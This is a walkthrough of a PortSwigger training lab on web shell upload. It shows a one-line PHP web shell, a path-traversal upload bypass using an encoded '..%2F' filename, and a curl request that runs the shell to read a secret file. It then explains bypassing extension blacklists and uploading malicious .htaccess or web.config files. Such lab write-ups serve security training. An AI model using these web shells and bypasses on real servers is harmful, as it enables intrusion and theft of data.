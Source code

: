 # 1f3 - Web shell upload via Path Traversal \[PortSwigger Lab]

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution:

So, User's page includes avatar upload function. just to upload `mal.php` with contents `<?php echo system($_GET['command']); ?>` will just return plaintext version of this script.

{{< figure src="/.gitbook/assets/Pasted image 20240720173537.png" alt="" >}}

it also seems that uploading `mal.php` with path traversal `../mal.php` still uploads it to `files/avatars/mal.php`, which means that it's cutting traversals in path.

{{< figure src="/.gitbook/assets/Pasted image 20240720173821.png" alt="" >}}

So all I had to do was obfuscating the path traversal to `..%2Fmal.php` which is same as `../mal.php`.

after changing a filename to this parameter and uploading it we get the following response

{{< figure src="/.gitbook/assets/uploaded.png" alt="" >}}

so the file is uploaded to `files/mal.php`

now we can just call this script using \[\[1a1b - cURL|cURL]] to get the response

```
curl -X GET "https://0a3c00e4049c901c802ee994009d003a.web-security-academy.net/files/mal.php?command=cat%20/home/carlos/secret"


jziR****************************jziR****************************
```

The secret: jziR\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

***

Another obvious way to prevent users from uploading certain files is to blacklist these file extensions like `php`. This practice is still flawed since its difficult to explicitly blacklist every file that can be executed. such blacklists can be sometimes bypassed using lesser known, alternative file extensions like `.php5` or `.shtml` and so on.

As previously mentioned, some servers won't let certain files to execute unless they are explicitly configured to do that.

As an example, before Apache server lets PHP files to execute, a developer might put something like the following in their `/etc/apache2/apache2.conf` file:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
	AddType application/x-httpd-php .php
```

Many servers also allow developers to create special config-files within individual directories to override global configuration parameters. Apache-specific servers for example will load directory-specific configuration from a file called `.htaccess`.

Similarly, directory-specific configuration can be made on IIS server using `web.config` file. This might include directives such as the following, where server only allows JSON files to be served to users:

```
<staticContent> 
	<mimeMap fileExtension=".json" mimeType="application/json" /> 
	</staticContent>
```

Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests.

However, you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable type.
